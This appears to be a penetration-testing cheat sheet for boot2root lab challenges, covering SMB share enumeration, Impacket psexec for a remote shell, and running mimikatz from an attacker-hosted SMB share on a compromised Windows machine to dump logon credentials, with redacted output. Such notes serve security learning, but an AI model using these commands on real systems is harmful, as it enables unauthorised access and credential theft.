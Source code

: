 # SMB - Enumeration

When completing boot2root challenges, if SMB is open (Port 139 & 445) it is reccomended to see if the user can list SMB shares unauthenticated.

The below commands are different ways in which a user can interact with SMB shares:
- smbmap -H 10.10.10.10
- smbclient -L 10.0.0.10

If it asks for a password, just simple hit enter and that will confirm if authentication is required or if the user can view the shares unauthenticated.
If the user has read/write access to the share, it is then reccomended to connect to the share by running the below command:
```
smbclient //10.10.10.10/sharename
```

# SMB - Impacket Psexec

PsExec is a portable tool developed by Microsoft that lets a user run processes remotely using user credentials on the system.

If a user has compromised a user account and has found the password of the account, the user can then psexec into the machine if there is no other ways of entry. (Example: SSH, RDP, WinRM and etc is turned off).

This method requires port 445 to be open, if it is not then the user may have to port forward the port to a listening state.

The command the user should run:
```
/usr/share/doc/python-impacket/examples/psexec.py hacker@10.10.10.10
```

The user will be prompted for hacker's password: hacker

An interactive shell should be spawned as the user hacker.

# Impacket's SMBServer (For File Transfer)

Impacket's SMBServer a tool to remotely transfer, capture hashes, use executables and more.

This is how a user can capture hashes on a system once compromiosed. 

On a Linux machine the user should navigate to: 
```
cd /usr/share/windows-binaries
```

Identify the mimikatz executable is present then run Impacket's SMBServer:
```
python /usr/share/doc/python-impacket/examples/smbserver.py share .
```

On the compromised Windows system run:
```
\\10.10.10.10\share\mimikatz.exe

  .#####.   mimikatz 2.1.1 (x64) built on Mar 29 2017 23:20:11
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 311317 (00000000:0004c015)
Session           : Interactive from 1
User Name         : 
Domain            : 
Logon Server      : 
Logon Time        : 
SID               : 
	msv :	
	 [00000003] Primary
	 * Username : 
	 * Domain   : 
	 * NTLM     : 
	 * SHA1     : 
	 * DPAPI    : 
```
Please note, all the above output has been redacted.
